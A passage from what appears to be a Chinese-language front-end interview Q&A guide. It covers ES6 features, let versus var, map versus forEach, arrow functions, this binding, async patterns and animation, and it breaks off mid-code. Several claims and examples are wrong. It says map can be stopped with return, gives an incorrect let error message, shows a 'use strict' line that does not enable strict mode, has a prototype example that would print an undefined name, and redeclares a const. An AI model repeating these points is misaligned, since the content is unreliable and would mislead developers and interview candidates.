11. **管道操作符**：提案阶段的特性，引入了管道操作符(`|>`)，可以将表达式的结果作为参数传递给下一个表达式，简化了函数调用和方法链的写法。

这些特性只是 ES6 的一部分，还有其他许多特性，如 `Promise.all` 、 `Map` 、 `Set` 、 `Proxy` 、 `Reflect` 等。ES6 的引入使得 JavaScript 语言更加现代化和强大，提供了更多的编程工具和语法

当然，以下是对 ES6 特性的一些示例代码：

1.  箭头函数：

```js
// 传统函数
function sum(a, b) {
  return a + b;
}

// 箭头函数
const sum = (a, b) => a + b;

// 使用箭头函数作为回调函数
const numbers = [1, 2, 3, 4, 5];
const squaredNumbers = numbers.map((num) => num * num);
console.log(squaredNumbers); // [1, 4, 9, 16, 25]
```

2.  模板字符串：

```js
const name = 'Alice';
const age = 25;

// 使用模板字符串进行字符串拼接和变量插值
const message = `My name is ${name} and I am ${age} years old.`;
console.log(message); // My name is Alice and I am 25 years old.
```

3.  解构赋值：

```js
// 数组解构赋值
const numbers = [1, 2, 3, 4, 5];
const [first, second, ...rest] = numbers;
console.log(first); // 1
console.log(second); // 2
console.log(rest); // [3, 4, 5]

// 对象解构赋值
const person = {
  name: 'Alice',
  age: 25,
};
const { name, age } = person;
console.log(name); // Alice
console.log(age); // 25
```

4.  默认参数：

```js
// 函数默认参数
function greet(name = 'Anonymous') {
  console.log(`Hello, ${name}!`);
}

greet(); // Hello, Anonymous!
greet('Alice'); // Hello, Alice!
```

5.  扩展运算符：

```js
// 数组展开
const numbers = [1, 2, 3];
const combined = [...numbers, 4, 5];
console.log(combined); // [1, 2, 3, 4, 5]

// 对象展开
const person = {
  name: 'Alice',
  age: 25,
};
const copiedPerson = {
  ...person,
};
console.log(copiedPerson); // { name: "Alice", age: 25 }
```

6.  Promise：

```js
// Promise示例
const fetchData = () => {
  return new Promise((resolve, reject) => {
    setTimeout(() => {
      resolve('Data fetched successfully');
    }, 2000);
  });
};

fetchData()
  .then((data) => {
    console.log(data); // Data fetched successfully
  })
  .catch((error) => {
    console.error(error);
  });
```

这些示例展示了 ES6 的一些特性的用法，但请注意，ES6 的特性在不同的环境中可能有不同的支持程度，因此在实际开发中需要注意目标环境的兼容性。

### 45 什么是面向对象编程及面向过程编程，它们的异同和优缺点

面向过程编程（Procedural Programming）和面向对象编程（Object-Oriented
Programming）是两种不同的编程范式。

**面向过程编程**是一种以过程（函数、方法）为中心的编程方式，将程序看作是一系列的步骤，通过顺序执行这些步骤来解决问题。面向过程编程强调的是解决问题的步骤和算法，将问题划分为不同的子任务，通过函数的调用和数据的传递来实现任务之间的协作。

面向过程编程的特点：

- 程序以过程为单位进行组织，以函数为基本单位。
- 数据和函数是分离的，函数对于数据的操作是通过参数进行传递。
- 强调算法和步骤，对问题进行分解和抽象，通过顺序、选择、循环等基本结构来控制程序的流程。
- 程序的可重用性较低，容易产生大量的重复代码。

**面向对象编程**是一种以对象为中心的编程方式，将程序看作是一系列相互关联的对象，通过对象之间的交互和消息传递来解决问题。面向对象编程强调的是事物（对象）的抽象、封装、继承和多态性。

面向对象编程的特点：

- 程序以对象为单位进行组织，对象是数据和方法的封装体。
- 数据和函数（方法）是紧密关联的，对象通过方法来操作自己的数据。
- 强调对象之间的关系和交互，通过继承、封装和多态性来实现代码的复用和灵活性。
- 程序的可重用性较高，易于维护和扩展。

异同和优缺点：

- 异同：

  - 异同点在于编程的思维方式和组织代码的方式不同，面向过程注重解决问题的步骤和算法，面向对象注重对象和对象之间的关系和交互。
  - 面向过程将问题分解为不同的函数来实现，而面向对象将问题抽象为对象，通过对象的方法来实现功能。

- 优点：

  - 面向过程编程的优点包括：简单、直观、执行效率高。
  - 面向对象编程的优点包括：可重用性高、易于扩展和维护、代码更加模块化和灵活。

- 缺点：
  - 面向过程编程的缺点包括：代码重复性高、维护困难、扩展性差。
  - 面向对象编程的缺点包括：复杂性高、学习曲线陡

### 46 面向对象编程思想

面向对象编程（Object-Oriented
Programming，简称 OOP）是一种编程思想和方法论，其基本思想是以对象为中心，通过封装、继承和多态等机制来组织和管理代码。以下是面向对象编程的基本思想：

1.  **封装（Encapsulation）**：将数据和对数据的操作封装在一起，形成对象。对象对外暴露有限的接口，隐藏内部实现细节，提供更好的模块化和抽象性。
2.  **继承（Inheritance）**：通过继承机制，一个类（子类）可以继承另一个类（父类）的属性和方法，并可以在此基础上添加、修改或扩展功能。继承可以实现代码的重用性和层次化的组织。
3.  **多态（Polymorphism）**：多态是指同一个方法名可以在不同的对象上产生不同的行为。通过多态，可以以统一的方式处理不同类型的对象，提高代码的灵活性和可扩展性。

面向对象编程的优点包括：

- **易维护性**：对象的封装性和模块化使得代码易于维护和理解。对修改封闭、对扩展开放的原则可以减少对已有代码的影响。
- **代码重用性**：通过继承和组合等机制，可以重用已有的类和代码，减少重复编写代码的工作量。
- **灵活性和可扩展性**：面向对象编程提供了灵活的结构和抽象层次，使得代码易于扩展和修改，适应需求的变化。
- **可靠性**：封装和继承等机制可以提高代码的可靠性和可测试性，减少错误的发生和影响范围。
- **可理解性**：面向对象的代码通常具有良好的可读性和可理解性，对象和类的设计使得代码更加直观和自然。

面向对象编程可以提供更高层次的抽象和组织，适用于复杂的系统和大型项目的开发。但同时，面向对象编程也有一些限制和挑战，如学习曲线较陡、设计复杂度高、性能开销等。适合选择何种编程思想取决于具体的项目需求和开发场景。

### 47 对 web 标准、可用性、可访问性的理解

> Web 标准（Web Standards）是指由 W3C（World Wide Web
> Consortium）等组织制定的用于开发和实现 Web 内容的一系列规范和标准。它包括 HTML、CSS、JavaScript 等技术规范，旨在确保不同浏览器和设备在呈现网页时的一致性和互操作性。遵循 Web 标准可以提高网站的可维护性、可访问性和可扩展性，同时提升用户体验。

- 可用性（Usability）是指一个产品或系统在用户使用过程中的易用性和用户满意度。一个具有良好可用性的产品能够满足用户的需求，提供直观、简洁、一致的用户界面，减少用户的学习成本和操作复杂度，提供明确的反馈和帮助信息，从而提升用户的效率和满意度。
- 可访问性（Accessibility）是指 Web 内容对于所有用户，包括残障用户，的可阅读和可理解性。它涉及到使用无障碍技术和遵循无障碍设计原则，以确保残障用户能够平等地获取和使用 Web 内容。这包括为视觉、听觉、运动和认知等方面的残障用户提供适当的辅助功能和支持，如屏幕阅读器、放大器、辅助键盘等。
- 可维护性（Maintainability）是指一个系统或代码的易维护性和可理解性。一个具有良好可维护性的系统能够快速定位和修复问题，容易进行功能扩展和修改。为了提高可维护性，代码应具有良好的结构和组织，遵循设计模式和编程规范，提供清晰的注释和文档，同时采用合适的工具和方法进行版本控制和测试。

这三个概念在 Web 开发中都非常重要。遵循 Web 标准可以提高网站的可访问性和可用性，从而更好地服务于用户的需求。同时，考虑可维护性可以降低代码的维护成本和风险，使开发团队能够更加高效地进行开发和迭代。

### 48 如何通过 JS 判断一个数组

1.  `instanceof`方法：使用`instanceof`运算符判断对象是否为数组，返回布尔值。例如：`arr instanceof Array`。
2.  `constructor`方法：使用`constructor`属性返回对象的构造函数，并判断该构造函数是否为数组构造函数。例如：`arr.constructor == Array`。
3.  使用`Object.prototype.toString.call()`方法：利用`Object.prototype.toString.call(value)`方法，将要判断的变量作为参数传入，并判断返回的字符串是否为`"[object Array]"`。例如：`Object.prototype.toString.call(arr) == '[object Array]'`。
4.  `ES5`新增的`isArray()`方法：使用`Array.isArray()`方法判断一个值是否为数组，返回布尔值。例如：`Array.isArray(arr)`。

### 49 谈一谈 let 与 var 的区别

**1. 块级作用域：**

- `let`声明的变量具有块级作用域，在块级作用域内定义的变量只在该块内有效。
- `var`声明的变量没有块级作用域，它的作用域是函数级的或全局的。

示例代码：

```js
// 使用 let 声明变量
function example1() {
  let x = 10;

  if (true) {
    let x = 20;
    console.log(x); // 输出 20
  }

  console.log(x); // 输出 10
}

example1();

// 使用 var 声明变量
function example2() {
  var y = 30;

  if (true) {
    var y = 40;
    console.log(y); // 输出 40
  }

  console.log(y); // 输出 40
}

example2();
```

**2. 变量提升：**

- 使用 `let` 声明的变量不存在变量提升，必须在声明后使用。
- 使用 `var` 声明的变量会存在变量提升，可以在声明之前使用。

示例代码：

```js
// 使用 let 声明变量
function example3() {
  console.log(x); // 报错：ReferenceError: x is not defined
  let x = 10;
}

example3();

// 使用 var 声明变量
function example4() {
  console.log(y); // 输出 undefined
  var y = 20;
}

example4();
```

**3. 重复声明：**

- 使用 `let` 声明的变量不允许重复声明，重复声明会导致报错。
- 使用 `var`
  声明的变量允许重复声明，不会报错，后面的声明会覆盖前面的声明。

示例代码：

```js
// 使用 let 声明变量
let z = 30;
let z = 40; // 报错：SyntaxError: Identifier 'z' has already been declared

// 使用 var 声明变量
var w = 50;
var w = 60; // 不会报错，后面的声明覆盖前面的声明
console.log(w); // 输出 60
```

**4. 循环中的区别**

在 `for` 循环中，使用 `var` 声明的变量具有函数作用域，因此在循环结束后仍然可以访问到循环变量；而使用 `let` 声明的变量具有块级作用域，因此在每次循环迭代时会创建一个新的变量实例，避免了常见的循环中的问题。

- 使用 `let`
  声明的变量在循环体内部具有块级作用域，每次迭代都会创建一个新的变量。

- 使用 `var`
  声明的变量在循环体内部没有块级作用域，变量是函数级的或全局的。

```js
// 使用 let 声明变量的循环
for (let i = 0; i < 3; i++) {
  setTimeout(function () {
    console.log(i); // 输出 0, 1, 2
  }, 1000);
}

// 使用 var 声明变量的循环
for (var j = 0; j < 3; j++) {
  setTimeout(function () {
    console.log(j); // 输出 3, 3, 3
  }, 1000);
}
```

### 50 map 与 forEach 的区别

- `forEach`方法是无法中断的，即使在遍历过程中使用`return`语句也无法停止遍历。而`map`方法可以使用`return`语句中断遍历。
- `map`方法会生成一个新的数组，并将每次遍历的返回值按顺序放入新数组中。而`forEach`方法没有返回值，仅用于遍历数组。
- `map`方法可以链式调用其他数组方法，比如`filter`、`reduce`等。而`forEach`方法不能链式调用其他数组方法。

示例代码：

```js
const numbers = [1, 2, 3, 4, 5];

// 使用 forEach 方法遍历数组
numbers.forEach(function (item, index, array) {
  console.log(item); // 输出数组元素
  console.log(index); // 输出索引值
  console.log(array); // 输出原数组
});

// 使用 map 方法遍历数组并生成新数组
const doubledNumbers = numbers.map(function (item, index, array) {
  return item * 2;
});
console.log(doubledNumbers); // 输出 [2, 4, 6, 8, 10]
```

在上面的示例中，使用 `forEach` 方法遍历数组并输出元素、索引和原数组。而使用 `map` 方法遍历数组并返回每个元素的两倍值，生成一个新的数组 `doubledNumbers` 。注意，在 `map` 的回调函数中使用了 `return` 语句来指定返回值。

> 总结： `forEach` 方法用于遍历数组，没有返回值； `map` 方法也用于遍历数组，返回一个新的数组，并且可以通过在回调函数中使用 `return` 语句来指定每次遍历的返回值。

### 51 谈一谈你理解的函数式编程

> - 简单说，\"函数式编程\"是一种\"编程范式\"（programming
>   paradigm），也就是如何编写程序的方法论
> - 它具有以下特性：闭包和高阶函数、惰性计算、递归、函数是\"第一等公民\"、只用\"表达式\"

函数式编程（Functional
Programming）是一种编程范式，它强调将计算过程视为函数求值的数学模型，通过组合和应用函数来进行程序开发。函数式编程具有以下特点：

1.  **纯函数**（Pure
    Functions）：函数的输出只由输入决定，不会产生副作用，即对同样的输入始终返回相同的输出。纯函数不会修改传入的参数，也不会改变外部状态，使得代码更加可预测和易于测试。

2.  **不可变性**（Immutability）：数据一旦创建就不能被修改，任何对数据的改变都会创建一个新的数据副本。这种不可变性使得代码更加安全，避免了一些潜在的错误。
3.  **高阶函数**（Higher-Order
    Functions）：函数可以作为参数传递给其他函数，也可以作为返回值返回。这种高阶函数的能力可以用来进行函数的组合、封装和抽象，提高代码的复用性和可读性。

4.  **函数组合**（Function
    Composition）：通过将多个函数组合成一个新的函数，可以实现更复杂的逻辑。函数组合可以通过函数的返回值作为参数传递给另一个函数，将多个函数连接起来形成一个函数链。

5.  **惰性计算**（Lazy
    Evaluation）：只在需要的时候才进行计算，避免不必要的计算。这种惰性计算可以提高程序的性能和效率。

下面是一个简单的函数式编程的示例代码：

```js
// 纯函数示例：计算一个数组中所有偶数的平均值
function calculateAverage(numbers) {
  const evenNumbers = numbers.filter((num) => num % 2 === 0);
  const sum = evenNumbers.reduce((acc, curr) => acc + curr, 0);
  return sum / evenNumbers.length;
}

const numbers = [1, 2, 3, 4, 5, 6, 7, 8, 9, 10];
const average = calculateAverage(numbers);
console.log(average); // 输出 6

// 高阶函数示例：使用 map 和 reduce 计算数组中每个元素的平方和
function calculateSquareSum(numbers) {
  return numbers.map((num) => num * num).reduce((acc, curr) => acc + curr, 0);
}

const numbers = [1, 2, 3, 4, 5];
const squareSum = calculateSquareSum(numbers);
console.log(squareSum); // 输出 55

// 函数组合示例：组合两个函数计算数组中偶数的平方和
const evenNumbersSquareSum = calculateSquareSum(
  numbers.filter((num) => num % 2 === 0)
);
console.log(evenNumbersSquareSum); // 输出 20
```

在上面的示例代码中，我们使用纯函数的方式编写了两个函数 `calculateAverage` 和 `calculateSquareSum` ，它们接收一个数组作为参数，并根据函数式编程的原则

### 52 谈一谈箭头函数与普通函数的区别？

1.  **`this`指向：**
    箭头函数没有自己的 `this` ，它会捕获所在上下文的 `this` 值。而普通函数的 `this` 是在运行时确定的，根据调用方式决定。

```js
// 普通函数中的this指向调用者
function greet() {
  console.log(`Hello, ${this.name}!`);
}

const person = {
  name: 'Alice',
};

greet.call(person); // 输出：Hello, Alice!

// 箭头函数中的this指向定义时的上下文
const greetArrow = () => {
  console.log(`Hello, ${this.name}!`);
};

greetArrow.call(person); // 输出：Hello, undefined!
```

2.  **不可作为构造函数：**
    箭头函数不能使用 `new` 关键字来创建实例，它没有自己的 `prototype` 属性，无法进行实例化。

```js
const Person = (name) => {
  this.name = name; // 错误，箭头函数不能作为构造函数
};

const person = new Person('Alice'); // 错误，无法实例化箭头函数
```

3.  **无`arguments`对象：**
    箭头函数没有自己的 `arguments` 对象，可以使用 `Rest` 参数来代替。

```js
function sum() {
  console.log(arguments); // 输出函数的参数列表
}

sum(1, 2, 3); // 输出：Arguments(3) [1, 2, 3]

const sumArrow = (...args) => {
  console.log(args); // 输出函数的参数列表
};

sumArrow(1, 2, 3); // 输出：[1, 2, 3]
```

4.  **无`yield`命令：**
    箭头函数不能用作 `Generator` 函数，无法使用 `yield` 命令进行函数的暂停和恢复。

```js
function* generatorFunc() {
    yield 1;
    yield 2;
}

const gen = generatorFunc();
console.log(gen.next().value); // 输出：1

const arrowGen = () => {
    yield 1; // 错误，箭头函数不能使用yield命令
};
```

> 综上所述，箭头函数与普通函数在 `this` 指向、构造函数能力、 `arguments` 对象和 `yield` 命令等方面有明显的区别。根据具体的使用场景和需求，选择适合的函数类型进行编程。

**总结**

- 函数体内的`this`对象，就是定义时所在的对象，而不是使用时所在的对象
- 不可以当作构造函数，也就是说，不可以使用`new`命令，否则会抛出一个错误
- 不可以使用`arguments`对象，该对象在函数体内不存在。如果要用，可以用`Rest`参数代替
- 不可以使用`yield`命令，因此箭头函数不能用作`Generator`函数

### 53 谈一谈函数中 this 的指向

函数中的 `this` 指向是根据函数的调用方式而确定的，有以下几种常见的情况：

1.  **方法调用模式：**
    当函数作为对象的方法被调用时， `this` 指向调用该方法的对象。

```js
const person = {
  name: 'Alice',
  greet: function () {
    console.log(`Hello, ${this.name}!`);
  },
};

person.greet(); // 输出：Hello, Alice!
```

2.  **函数调用模式：**
    当函数独立调用时， `this` 指向全局对象（在浏览器环境中通常指向 `window` 对象）或 `undefined` （在严格模式下）。

```js
function greet() {
  console.log(`Hello, ${this.name}!`);
}

const name = 'Alice';

greet(); // 输出：Hello, undefined!

// 在严格模式下
('use strict');
greet(); // 输出：Hello, undefined!
```

3.  **构造器调用模式：**
    当函数用作构造器（使用 `new` 关键字）创建对象时， `this` 指向新创建的对象。

```js
function Person(name) {
  this.name = name;
  this.greet = function () {
    console.log(`Hello, ${this.name}!`);
  };
}

const person = new Person('Alice');

person.greet(); // 输出：Hello, Alice!
```

4.  **`apply`/`call`调用模式：**
    使用 `apply` 或 `call` 方法来调用函数时，可以手动指定 `this` 的值。

```js
function greet() {
  console.log(`Hello, ${this.name}!`);
}

const person = {
  name: 'Alice',
};

greet.call(person); // 输出：Hello, Alice!
greet.apply(person); // 输出：Hello, Alice!
```

> 总结来说，函数中的 `this` 指向是根据函数的调用方式来确定的，可以是调用函数的对象、全局对象、新创建的对象，或者通过 `apply` / `call` 方法手动指定。了解函数的调用方式可以帮助理解和正确使用 `this` 关键字。

总结

**1. this 指向有哪几种**

- 默认绑定：全局环境中，`this`默认绑定到`window`
- 隐式绑定：一般地，被直接对象所包含的函数调用时，也称为方法调用，`this`隐式绑定到该直接对象
- 隐式丢失：隐式丢失是指被隐式绑定的函数丢失绑定对象，从而默认绑定到`window`。显式绑定：通过`call()`、`apply()`、`bind()`方法把对象绑定到`this`上，叫做显式绑定
- `new`绑定：如果函数或者方法调用之前带有关键字`new`，它就构成构造函数调用。对于`this`绑定来说，称为`new`绑定
  - 构造函数通常不使用`return`关键字，它们通常初始化新对象，当构造函数的函数体执行完毕时，它会显式返回。在这种情况下，构造函数调用表达式的计算结果就是这个新对象的值
  - 如果构造函数使用`return`语句但没有指定返回值，或者返回一个原始值，那么这时将忽略返回值，同时使用这个新对象作为调用结果
  - 如果构造函数显式地使用`return`语句返回一个对象，那么调用表达式的值就是这个对象

**2. 改变函数内部 this 指针的指向函数（bind，apply，call 的区别）**

- `apply`：调用一个对象的一个方法，用另一个对象替换当前对象。例如：`B.apply(A, arguments)`; 即 A 对象应用 B 对象的方法
- `call`：调用一个对象的一个方法，用另一个对象替换当前对象。例如：`B.call(A, args1,args2)`; 即 A 对象调用 B 对象的方法
- `bind`除了返回是函数以外，它的参数和`call`一样

**3. 箭头函数**

- 箭头函数没有`this`，所以需要通过查找作用域链来确定`this`的值，这就意味着如果箭头函数被非箭头函数包含，`this`绑定的就是最近一层非箭头函数的`this`，
- 箭头函数没有自己的`arguments`对象，但是可以访问外围函数的`arguments`对象
- 不能通过`new`关键字调用，同样也没有`new.target`值和原型

### 54 异步编程的实现方式

- 回调函数：在异步操作完成后，通过回调函数来处理结果
  - 优点：简单、容易理解
  - 缺点：不利于维护，代码耦合高

```js
function fetchData(callback) {
  setTimeout(() => {
    const data = 'Hello, world!';
    callback(data);
  }, 1000);
}

fetchData((data) => {
  console.log(data); // 输出：Hello, world!
});
```

- 事件监听：通过事件的发布和订阅来实现异步操作
  - 优点：容易理解，可以绑定多个事件，每个事件可以指定多个回调函数
  - 缺点：事件驱动型，流程不够清晰

```js
function fetchData() {
  setTimeout(() => {
    const data = 'Hello, world!';
    eventEmitter.emit('dataReceived', data);
  }, 1000);
}

eventEmitter.on('dataReceived', (data) => {
  console.log(data); // 输出：Hello, world!
});

fetchData();
```

- 发布/订阅(观察者模式)：类似于事件监听，但是可以通过消息中心来管理发布者和订阅者
  - 类似于事件监听，但是可以通过'消息中心'，了解现在有多少发布者，多少订阅者

```js
function fetchData() {
  setTimeout(() => {
    const data = 'Hello, world!';
    messageCenter.publish('dataReceived', data);
  }, 1000);
}

messageCenter.subscribe('dataReceived', (data) => {
  console.log(data); // 输出：Hello, world!
});

fetchData();
```

- Promise 对象：使用 Promise 对象可以更方便地处理异步操作的结果和错误
  - 优点：可以利用 then 方法，进行链式写法；可以书写错误时的回调函数；
  - 缺点：编写和理解，相对比较难

```js
function fetchData() {
  return new Promise((resolve, reject) => {
    setTimeout(() => {
      const data = 'Hello, world!';
      resolve(data);
    }, 1000);
  });
}

fetchData()
  .then((data) => {
    console.log(data); // 输出：Hello, world!
  })
  .catch((error) => {
    console.error(error);
  });
```

- Generator 函数：使用 Generator 函数可以实现函数体内外的数据交换和错误处理
  - 优点：函数体内外的数据交换、错误处理机制
  - 缺点：流程管理不方便

```js
function* fetchData() {
  try {
    const data = yield new Promise((resolve, reject) => {
      setTimeout(() => {
        resolve('Hello, world!');
      }, 1000);
    });
    console.log(data); // 输出：Hello, world!
  } catch (error) {
    console.error(error);
  }
}

const generator = fetchData();
const promise = generator.next().value;
promise
  .then((data) => {
    generator.next(data);
  })
  .catch((error) => {
    generator.throw(error);
  });
```

- async 函数：async 函数是 Generator 函数的语法糖，可以更方便地编写和理解异步代码
  - 优点：内置执行器、更好的语义、更广的适用性、返回的是 Promise、结构清晰。
  - 缺点：错误处理机制

```js
async function fetchData() {
  try {
    const data = await new Promise((resolve, reject) => {
      setTimeout(() => {
        resolve('Hello, world!');
      }, 1000);
    });
    console.log(data); // 输出：Hello, world!
  } catch (error) {
    console.error(error);
  }
}

fetchData();
```

### 56 谈谈你对原生 Javascript 了解程度

> 数据类型、运算、对象、Function、继承、闭包、作用域、原型链、事件、 `RegExp` 、 `JSON` 、 `Ajax` 、 `DOM` 、 `BOM` 、内存泄漏、跨域、异步装载、模板引擎、前端 `MVC` 、路由、模块化、 `Canvas` 、 `ECMAScript`

**1.
数据类型：JavaScript 具有多种数据类型，包括字符串、数字、布尔值、对象、数组、函数等**
**2.
运算：JavaScript 支持常见的算术运算、逻辑运算和比较运算，也支持位运算和三元运算符**

```js
let sum = 5 + 3;
let isTrue = true && false;
let isEqual = 10 === 5;
let bitwiseOr = 3 | 5;
let result = num > 0 ? 'Positive' : 'Negative';
```

**3.
对象：JavaScript 中的对象是键值对的集合，可以通过字面量形式或构造函数创建对象**

```js
let person = {
  name: 'poetry',
  age: 25,
};
let car = new Object();
car.brand = 'Toyota';
car.color = 'Blue';
```

**4.
Function：JavaScript 中的函数是一等公民，可以作为变量、参数或返回值进行操作**

```js
function add(a, b) {
  return a + b;
}

let multiply = function (a, b) {
  return a * b;
};

let result = multiply(2, 3);
```

**5. 继承：** JavaScript 使用原型链实现对象之间的继承关系

```js
function Animal(name) {
  this.name = name;
}

Animal.prototype.sayHello = function () {
  console.log("Hello, I'm " + this.name);
};

function Dog(name, breed) {
  Animal.call(this, name);
  this.breed = breed;
}

Dog.prototype = Object.create(Animal.prototype);
Dog.prototype.constructor = Dog;

let dog = new Dog('Max', 'Labrador');
dog.sayHello();
```

**6.
闭包：闭包是指函数能够访问其词法作用域外的变量，通过闭包可以实现数据的私有化和封装**

```js
function outerFunction() {
  let count = 0;

  return function () {
    count++;
    console.log(count);
  };
}

let increment = outerFunction();
increment(); // 输出：1
increment(); // 输出：2
```

**7.
作用域：JavaScript 具有函数作用域和块级作用域，在不同的作用域中变量的可访问性不同**

```js
function example() {
  let x = 10;

  if (true) {
    let y = 20;
    console.log(x); // 输出：10
    console.log(y); // 输出：20
  }
}
```

**8.
原型链：原型链是 JavaScript 中实现对象继承的机制，每个对象都有一个原型对象，形成一个链式结构**

```js
function Animal(name) {
  this.name = name;
}

Animal.prototype.sayHello = function () {
  console.log("Hello, I'm " + this.name);
};

function Dog(name, breed) {
  this.breed = breed;
}

Dog.prototype = Object.create(Animal.prototype);
Dog.prototype.constructor = Dog;

let dog = new Dog('Max', 'Labrador');
dog.sayHello();
```

**9.
事件：JavaScript 通过事件来响应用户的操作，可以通过事件监听和事件处理函数来实现**

```js
let button = document.getElementById('myButton');

button.addEventListener('click', function () {
  console.log('Button clicked');
});
```

**10.
RegExp：正则表达式是一种用于匹配和操作字符串的强大工具，JavaScript 中提供了内置的 RegExp 对象**

```js
let pattern = /[a-zA-Z]+/;
let text = 'Hello, World!';
let result = pattern.test(text);
console.log(result); // 输出：true
```

**11.
JSON：JSON 是一种用于数据交换的格式，JavaScript 提供了 JSON 对象来进行解析和生成 JSON 数据**

```js
let jsonStr = '{"name":"poetry", "age":25}';
let obj = JSON.parse(jsonStr);
console.log(obj.name); // 输出：poetry

let obj2 = {
  name: 'Jane',
  age: 30,
};
let jsonStr2 = JSON.stringify(obj2);
console.log(jsonStr2); // 输出：{"name":"Jane","age":30}
```

**12.
Ajax：Ajax 是一种在后台与服务器进行异步通信的技术，可以实现页面的局部刷新和动态数据加载**

```js
let xhr = new XMLHttpRequest();
xhr.open('GET', 'https://api.example.com/data', true);
xhr.onreadystatechange = function () {
  if (xhr.readyState === 4 && xhr.status === 200) {
    let response = xhr.responseText;
    console.log(response);
  }
};
xhr.send();
```

**13.
DOM：DOM 是 JavaScript 操作网页内容和结构的接口，可以通过 DOM 来增删改查网页元素**

```js
let element = document.getElementById('myElement');
element.innerHTML = 'New content';

let newElement = document.createElement('div');
newElement.textContent = 'Dynamic element';
document.body.appendChild(newElement);
```

**14.
BOM：BOM（浏览器对象模型）提供了与浏览器窗口交互的接口，如操作浏览器历史记录、定时器等**

```js
window.location.href = 'https://www.example.com';
let screenWidth = window.screen.width;
let timer = setTimeout(function () {
  console.log('Timer expired');
}, 5000);
```

**15.
内存泄漏：内存泄漏是指无用的内存占用没有被释放，JavaScript 中需要注意避免造成内存泄漏**

```js
function createHeavyObject() {
  let bigArray = new Array(1000000).fill('data');
  return bigArray;
}

let data = createHeavyObject();

// 释放无用的引用，帮助垃圾回收器回收内存
data = null;
```

**16.
跨域：跨域是指在浏览器中访问不同源的资源，需要遵守同源策略或通过 CORS 等方式解决**

```js
// 跨域请求示例
let xhr = new XMLHttpRequest();
xhr.open('GET', 'https://api.example.com/data', true);
xhr.withCredentials = true;
xhr.onreadystatechange = function () {
  if (xhr.readyState === 4 && xhr.status === 200) {
    let response = xhr.responseText;
    console.log(response);
  }
};
xhr.send();
```

**17.
异步装载：通过异步加载资源，如图片、样式表和脚本，可以提高页面加载和性能**

```js
// 异步加载脚本
let script = document.createElement('script');
script.src = 'https://example.com/script.js';
document.head.appendChild(script);

// 异步加载图片
let image = new Image();
image.src = 'https://example.com/image.jpg';
image.onload = function () {
  console.log('Image loaded');
};
```

**18.
模板引擎：模板引擎是用于生成动态 HTML 内容的工具，可以将数据和模板进行结合生成最终的 HTML**

```js
let data = {
  name: 'poetry',
  age: 25,
};

let template = `
    <h1>My Profile</h1>
    <p>Name: ${data.name}</p>
    <p>Age: ${data.age}</p>
  `;

document.getElementById('profileContainer').innerHTML = template;
```

**19.
前端 MVC：前端 MVC（Model-View-Controller）是一种将应用程序分为数据模型、视图和控制器的架构模式**

```js
// 模型（Model）
let user = {
  name: 'poetry',
  age: 25,
};

// 视图（View）
function renderUser(user) {
  let container = document.getElementById('userContainer');
  container.innerHTML = `
      <p>Name: ${user.name}</p>
      <p>Age: ${user.age}</p>
    `;
}

// 控制器（Controller）
function updateUserAge(newAge) {
  user.age = newAge;
  renderUser(user);
}

updateUserAge(30);
```

**20.
路由：路由是指根据不同的 URL 路径切换不同的页面或视图，前端路由可以通过 URL 的变化来加载对应的组件或页面**

```js
// 设置路由规则
const routes = [
  {
    path: '/',
    component: Home,
  },
  {
    path: '/about',
    component: About,
  },
  {
    path: '/contact',
    component: Contact,
  },
];

// 监听URL变化
window.addEventListener('hashchange', () => {
  const path = window.location.hash.substring(1);
  const route = routes.find((route) => route.path === path);

  if (route) {
    const component = new route.component();
    component.render();
  }
});

// 渲染组件
class Home {
  render() {
    document.getElementById('app').innerHTML = '<h1>Home Page</h1>';
  }
}

class About {
  render() {
    document.getElementById('app').innerHTML = '<h1>About Page</h1>';
  }
}

class Contact {
  render() {
    document.getElementById('app').innerHTML = '<h1>Contact Page</h1>';
  }
}

// 初始加载默认路由
window.location.hash = '/';
```

**21.
模块化：JavaScript 模块化通过将代码分割为独立的模块，每个模块具有自己的作用域和接口**

```js
// 模块A
export function add(a, b) {
  return a + b;
}

export function multiply(a, b) {
  return a * b;
}

// 模块B
import { add, multiply } from './moduleA.js';

let sum = add(2, 3);
let product = multiply(4, 5);
```

**22. Canvas：Canvas 是 HTML5 提供的用于绘制图形和动画的 API，可以通过 JavaScript 操作 Canvas 元素**

```js
let canvas = document.getElementById('myCanvas');
let ctx = canvas.getContext('2d');

ctx.fillStyle = 'red';
ctx.fillRect(0, 0, canvas.width, canvas.height);

ctx.strokeStyle = 'blue';
ctx.lineWidth = 2;
ctx.beginPath();
ctx.arc(100, 100, 50, 0, 2 * Math.PI);
ctx.stroke();
```

**23.
ECMAScript：ECMAScript 是 JavaScript 的标准化规范，定义了语法、数据类型、函数等核心特性**

```js
// ECMAScript 6示例
let name = 'poetry';
let age = 25;

let message = `My name is ${name} and I'm ${age} years old.`;

console.log(message);
```

> 这些是原生 JavaScript 的一些重要特性和示例代码，涵盖了数据类型、运算、对象、函数、继承、闭包、作用域、原型链、事件、正则表达式、JSON、Ajax、DOM、BOM、内存泄漏、跨域、异步装载、模板引擎、前端 MVC、路由、模块化、Canvas 和 ECMAScript。当然，JavaScript 还有许多其他特性和用法，这只是其中一部分。

### 57 Js 动画与 CSS 动画区别及相应实现

在 JavaScript 中实现动画可以通过以下方式：

1.  使用`setTimeout`或`setInterval`函数结合 DOM 操作来实现逐帧动画。这种方式需要手动计算和控制每一帧的变化，并且需要注意处理动画的性能问题。

```js
let element = document.getElementById('animate');
let position = 0;

function animate() {
  position += 1;
  element.style.left = position + 'px';

  if (position < 200) {
    setTimeout(animate, 10);
  }
}

animate();
```

2.  使用`requestAnimationFrame`函数来实现更高效的动画。`requestAnimationFrame`会在浏览器每一帧绘制之前调用指定的回调函数，可以更好地利用浏览器的刷新机制。

```js
let element = document.getElementById('animate');
let position = 0;

function animate() {
  position += 1;
  element.style.left = position + 'px';

  if (position < 200) {
    requestAnimationFrame(animate);
  }
}

animate();
```

3.  使用现代 JavaScript 动画库，如`GSAP`（GreenSock Animation
    Platform），它提供了丰富的动画功能和更高级的控制选项。

```js
let element = document.getElementById('animate');

gsap.to(element, {
  x: 200,
  duration: 1,
  ease: 'power2.out',
});
```

4.  使用`Pixi.js`实现动画方式

> `Pixi.js` 是一个基于 WebGL 的 2D 渲染引擎，它提供了丰富的功能和工具来创建高性能的动画效果。使用 `Pixi.js` 可以轻松实现复杂的动画效果，并且可以充分利用硬件加速来提高性能。

以下是使用 `Pixi.js` 实现动画的示例代码：

4.1 创建 `Pixi.js` 应用程序：

```js
// 创建一个Pixi.js应用程序
